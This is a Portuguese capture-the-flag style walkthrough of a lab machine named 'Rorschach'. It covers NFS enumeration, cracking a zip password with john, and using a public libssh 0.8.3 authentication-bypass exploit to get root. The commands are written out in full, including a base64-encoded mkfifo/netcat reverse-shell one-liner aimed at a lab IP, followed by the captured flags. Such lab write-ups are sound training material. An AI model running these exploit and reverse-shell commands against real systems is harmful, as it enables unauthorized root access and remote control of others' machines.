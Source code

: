 EHPT - Rorschach

# EHPT - Rorschach

## Enumeração

### Scan inicial

- Iniciando a enumeração da máquina com nmap, encontrados os seguintes serviços em execução

```
# Nmap 7.80 scan initiated Fri Jun 19 18:27:13 2020 as: nmap -A -p22,111,2049,8140,41191,44285,45397,51707 -Pn -oA full 10.0.0.9

Nmap scan report for 10.0.0.9
Host is up (0.0012s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:bb:45:9e:3a:22:86:57:cf:04:95:ec:9e:3a:c9:83 (RSA)
|   256 3d:28:98:10:45:40:4a:82:f8:63:d7:19:38:3e:d9:17 (ECDSA)
|_  256 d6:26:94:02:47:50:6c:d6:b4:63:eb:c8:63:a6:14:ad (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36931/udp   mountd
|   100005  1,2,3      45397/tcp   mountd
|   100005  1,2,3      56071/tcp6  mountd
|   100005  1,2,3      56489/udp6  mountd
|   100021  1,3,4      42316/udp6  nlockmgr
|   100021  1,3,4      42643/tcp6  nlockmgr
|   100021  1,3,4      44285/tcp   nlockmgr
|   100021  1,3,4      49923/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8140/tcp  open  ssh      libssh 0.8.3 (protocol 2.0)
| ssh-hostkey: 
|_  2048 95:4f:0d:77:af:d0:f4:94:81:43:3f:c0:2c:d3:a3:fe (RSA)
41191/tcp open  mountd   1-3 (RPC #100005)
44285/tcp open  nlockmgr 1-4 (RPC #100021)
45397/tcp open  mountd   1-3 (RPC #100005)
51707/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Fri Jun 19 18:27:20 2020 -- 1 IP address (1 host up) scanned in 6.62 seconds
```

### 2049/TCP - NFS

- Uma vez que foi notado um serviço de nfs na porta 2049/TCP, inciado a enumeração do mesmo através do comando showmount, que mostra que o mesmo é publicamente acessível

```
dcruz@kali:/dcruz/ehpt/rorschach/scan$ showmount -e 10.0.0.9
Export list for 10.0.0.9:
/media/nfs *
```

- Realizado o ponto de montagem do diretório e encontrados os seguintes arquivos no mesmo

```
dcruz@kali:/dcruz/ehpt/rorschach$ mkdir mount
dcruz@kali:/dcruz/ehpt/rorschach$ sudo mount -t nfs 10.0.0.9:/media/nfs /dcruz/ehpt/rorschach/mount/
dcruz@kali:/dcruz/ehpt/rorschach$ cd mount/
dcruz@kali:/dcruz/ehpt/rorschach/mount$ tree
.
├── index.html
└── secret.pdf.zip

0 directories, 2 files
dcruz@kali:/dcruz/ehpt/rorschach/mount$ ls -la
total 168
drwxr-xr-x 2 root  root   4096 Feb  4 13:07 .
drwxr-xr-x 6 dcruz dcruz  4096 Jun 19 18:38 ..
-rw-r--r-- 1 root  root  79931 Feb  4 13:07 index.html
-rw-r--r-- 1 root  root  79931 Jan 29 00:55 secret.pdf.zip
```

- Uma vez que ambos os arquivos tem a mesma quantidade de bytes, executado o file em abos e visto que são o mesmo arquivo, o que pode ser tambem comprovado com o comando sha1sum

```
dcruz@kali:/dcruz/ehpt/rorschach/mount$ file index.html 
index.html: Zip archive data, at least v?[0x333] to extract
dcruz@kali:/dcruz/ehpt/rorschach/mount$ file secret.pdf.zip 
secret.pdf.zip: Zip archive data, at least v?[0x333] to extract
dcruz@kali:/dcruz/ehpt/rorschach/mount$ cat index.html | shasum 
be678da6d06a027e2b6478cd8117c5cd8e094152  -
dcruz@kali:/dcruz/ehpt/rorschach/mount$ cat secret.pdf.zip | shasum 
be678da6d06a027e2b6478cd8117c5cd8e094152  -
dcruz@kali:/dcruz/ehpt/rorschach/mount$ 

```

- Copiado arquivo para pasta loot, o qual ao tentar extrair, solicitou password

```
dcruz@kali:/dcruz/ehpt/rorschach/loot$ 7z x secret.pdf.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz (806EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 79931 bytes (79 KiB)

Extracting archive: secret.pdf.zip
--
Path = secret.pdf.zip
Type = zip
Physical Size = 79931

Enter password (will not be echoed):
```

- Utilizado zip2john e john para quebrar a senha do arquivo zip, com o dicionário rockyou.txt

```
dcruz@kali:/dcruz/ehpt/rorschach/loot$ zip2john secret.pdf.zip > zip.hash
dcruz@kali:/dcruz/ehpt/rorschach/loot$ john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
paradise!        (secret.pdf.zip/secret.pdf)
1g 0:00:00:10 DONE (2020-06-19 18:55) 0.09398g/s 37341p/s 37341c/s 37341C/s remmer..ozzie7
Use the "--show" option to display all of the cracked passwords reliably
Session completed
dcruz@kali:/dcruz/ehpt/rorschach/loot$ john zip.hash --show
secret.pdf.zip/secret.pdf:paradise!:secret.pdf:secret.pdf.zip:secret.pdf.zip

1 password hash cracked, 0 left

```

- Usando a senha **paradise!** conforme imagem acima foi possível extrair o arquivo secret.pdf, porem o mesmo continha apenas uma imagem, conforme screenshot abaixo.

![image-20200619185925236](C:\Temp\EHPT\.assets\image-20200619185925236.png)

- Analisando rapidamente as strings do arquivo, não foi encontrado nada no mesmo.

### 8140/TCP - LibSSH

- Retomando a enumeração dos serviços na maquina, identificado que na porta 8140/TCP existe um serviço SSH executando a libssh 0.8.3. Rapidamente buscando no searchsploit esta biblioteca, identificado que esta se trata de uma versão vulnerável a acesso não autorizado

```
dcruz@kali:/dcruz/ehpt/rorschach/loot$ searchsploit libssh
--------------------------------------------------------- ---------------------------------
Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
libSSH - Authentication Bypass                           | linux/remote/45638.py
LibSSH 0.7.6 / 0.8.4 - Unauthorized Access               | linux/remote/46307.py
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## Exploração

- Verificando o segundo exploit (**46307**) identificado que este permite a execução de um comando informando como argumentos ao script o hostname, porta e comando desejado. Ao executar com os dados desejados, notado que já é possivel obter um shell como root nesta maquina :)

```
dcruz@kali:/dcruz/ehpt/rorschach/exploit$ ./46307.py 10.0.0.9 8140 id
/home/dcruz/.local/lib/python3.8/site-packages/paramiko/rsakey.py:127: CryptographyDeprecationWarning: signer and verifier have been deprecated. Please use sign and verify instead.
verifier = key.verifier(
uid=0(root) gid=0(root) groups=0(root)
```

- Uma vez que temos execução remota de código como root, executados os comandos necessários para obter um shell reverso para que pudéssemos obter a flag.

```
dcruz@kali:/dcruz/ehpt/rorschach/exploit$ ./46307.py 10.0.0.9 8140 "echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI│
+JjF8bmMgMTAuMC4wLjMgNDQ0MyA+L3RtcC9mCg==' | base64 -d | bash"  
```

- Como Root, obtido flag na maquina

```
# cat .root.txt
b077bffcb1ef246f7cc77ae2a86bc684
```

- Uma vez que se tem root na maquina, obtido os demais flags existentes na máquina

```
root@debian:/# find / 2> /dev/null | grep .txt$
[....]
/home/noob/local.txt
/home/sandman/user.txt
root@debian:/# cat /home/noob/local.txt
cat /home/noob/local.txt
c7e9d46b43370b38f661b25166253d38
root@debian:/# cat /home/sandman/user.txt
cat /home/sandman/user.txt
536aec5f29a91b5ee5154b713f83c1b5
```